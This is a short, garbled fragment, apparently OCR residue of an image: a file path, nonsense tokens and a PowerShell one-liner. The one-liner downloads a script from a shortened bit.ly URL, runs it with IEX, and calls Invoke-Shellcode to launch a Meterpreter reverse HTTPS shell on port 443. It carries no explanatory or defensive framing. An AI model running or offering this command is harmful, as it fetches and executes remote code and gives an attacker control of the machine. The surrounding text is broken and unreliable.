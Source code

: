 2
=
GGGHHHJJJ_now

FocusmazmanFocus

RunIEX (New-Object Net.WebClient).DownloadString('http://bit.ly/14bZZ0c');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run
